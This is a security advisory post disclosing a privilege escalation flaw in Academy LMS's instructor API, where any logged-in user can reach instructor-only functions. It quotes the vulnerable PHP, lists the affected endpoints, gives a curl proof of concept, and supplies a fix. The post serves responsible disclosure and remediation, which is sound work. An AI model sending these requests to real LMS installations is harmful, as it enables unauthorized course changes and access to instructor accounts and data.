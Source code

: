 ```yaml
---
title: "Privilege Escalation Vulnerability in Academy LMS Api_instructor Controller"
date: 2025-07-20
tags: ["security", "privilege-escalation", "academy-lms", "vulnerability"]
categories: ["Security Research"]
draft: false
url: "/academy-lms-instructor-escalation-3n7b9f2w5k/"
_build:
  list: false
  render: true
  publishResources: true
sitemap:
  disable: true
---
```


## Overview

A significant privilege escalation vulnerability has been identified in Academy LMS versions up to and including 5.13, allowing regular users to access instructor-only functionality without proper authorization.

## Technical Details

**CVE ID:** CVE-2025-56747 https://nvd.nist.gov/vuln/detail/CVE-2025-56747  
**CVSS Score:** 8.6 (High)  
**Affected Versions:** Academy LMS ≤ v5.13  
**Vulnerability Type:** Privilege Escalation / Access Control Bypass  

### Affected Component
- File: `lms/application/controllers/Api_instructor.php`
- Lines: 20, 47, 91, 110, 124, 135, 148, 155, 168, 181, 195

### Vulnerability Description

The Api_instructor controller fails to properly validate user roles before granting access to instructor-specific functions. While the system checks for valid JWT tokens, it does not verify the `is_instructor=1` flag in the user's database record, allowing any authenticated user to access instructor functionality.

### Vulnerable Source Code

```php
// From lms/application/controllers/Api_instructor.php:20-35
public function token_data_get($auth_token)
{
  if (isset($auth_token)) {
    try {
      $jwtData = $this->tokenHandler->DecodeToken($auth_token);
      return json_encode($jwtData);
    } catch (Exception $e) {
      echo 'catch';
      http_response_code('401');
      echo json_encode(array("status" => false, "message" => $e->getMessage()));
      exit;
    }
  } else {
    echo json_encode(array("status" => false, "message" => "Invalid Token"));
  }
}

// From lms/application/controllers/Api_instructor.php:47-54  
public function change_password_post()
{
  $response = array();
  if (isset($_POST['auth_token']) && !empty($_POST['auth_token']) /* ... */) {
    $auth_token = $_POST['auth_token'];
    $logged_in_user_details = json_decode($this->token_data_get($auth_token), true);
    if ($logged_in_user_details['user_id'] > 0) {
      // Missing: Check if user has is_instructor=1 flag
      $response = $this->api_instructor_model->change_password_post($logged_in_user_details['user_id']);
    }
  }
}
```

## Impact

A regular authenticated user can:
1. Create unlimited courses without instructor privileges
2. Modify existing course content
3. Access sensitive instructor data and analytics
4. Change instructor passwords and profile information
5. Manipulate course pricing and availability
6. Bypass the platform's business model entirely

## Affected Endpoints

The following API endpoints are vulnerable to privilege escalation:

```
GET  /lms/api_instructor/userdata
POST /lms/api_instructor/update_userdata
POST /lms/api_instructor/add_course
POST /lms/api_instructor/update_course
GET  /lms/api_instructor/courses
GET  /lms/api_instructor/token_data
POST /lms/api_instructor/change_password
POST /lms/api_instructor/change_profile_photo
GET  /lms/api_instructor/add_course_form
GET  /lms/api_instructor/edit_course_form
GET  /lms/api_instructor/update_course_status
```

## Proof of Concept

```bash
# 1. Login as regular user
curl -X POST "https://target.com/lms/api/login" \
  -d "email=regularuser@example.com&password=userpass"

# 2. Extract JWT token from response
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..."

# 3. Access instructor functionality (should fail but doesn't)
curl -X GET "https://target.com/lms/api_instructor/userdata?auth_token=${JWT_TOKEN}"

# 4. Create unauthorized course
curl -X POST "https://target.com/lms/api_instructor/add_course" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "auth_token=${JWT_TOKEN}&title=Unauthorized Course&description=Created by regular user"
```

## Root Cause Analysis

The vulnerability exists because the Api_instructor controller only performs the following check:

```php
// Insufficient validation - only checks JWT validity
if (!$this->jwt_model->validate_jwt_token()) {
    // Reject request
}
// Missing: Check if user has is_instructor=1 flag
```

The correct implementation should include:

```php
// Proper validation
if (!$this->jwt_model->validate_jwt_token()) {
    // Reject request
}

$user_data = $this->jwt_model->get_user_data_from_token();
if ($user_data['is_instructor'] != 1) {
    // Reject - user is not an instructor
}
```

## Mitigation

### Immediate Fix
Add proper instructor role validation to all methods in the Api_instructor controller:

```php
public function __construct() {
    parent::__construct();
    
    // Validate JWT token
    if (!$this->jwt_model->validate_jwt_token()) {
        http_response_code(401);
        echo json_encode(['error' => 'Unauthorized']);
        exit;
    }
    
    // Validate instructor role
    $user_data = $this->jwt_model->get_user_data_from_token();
    if (!isset($user_data['is_instructor']) || $user_data['is_instructor'] != 1) {
        http_response_code(403);
        echo json_encode(['error' => 'Insufficient privileges']);
        exit;
    }
}
```

### Best Practices
1. Implement role-based access control consistently
2. Use middleware for authorization checks
3. Validate user permissions at the database level
4. Implement proper error handling for authorization failures
5. Add audit logging for privilege escalation attempts

## Business Impact

This vulnerability can result in:
- Financial losses due to unauthorized course creation
- Compromise of the platform's business model
- Data exposure of instructor analytics and earnings
- Reputation damage and loss of user trust

## Timeline

- **Discovery:** July 2025 (During white box penetration testing)
- **Vendor Notification:** July 20, 2025 (Responsible disclosure to Creativeitem/Academy LMS team)
- **CVE Request Submitted:** July 20, 2025 (CVE number requested from MITRE)
- **Vendor Response:** Awaiting response from vendor
- **Public Disclosure:** July 20, 2025

*This vulnerability was discovered during a white box penetration test. Given that Academy LMS is a widely-used commercial template with many installations across different organizations, we decided to report this as a responsible disclosure to help protect all users of this platform.*

*This timeline will be updated accordingly as the responsible disclosure process progresses.*

## References

- [OWASP Access Control Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html)
- [Academy LMS Documentation](https://codecanyon.net/item/academy-learning-management-system/22703468)

## Credit

This vulnerability was discovered and responsibly disclosed by the security research team at suryadina.com.

---
*This post is part of our ongoing security research into popular Learning Management Systems. For more security insights, visit [https://suryadina.com](https://suryadina.com).*
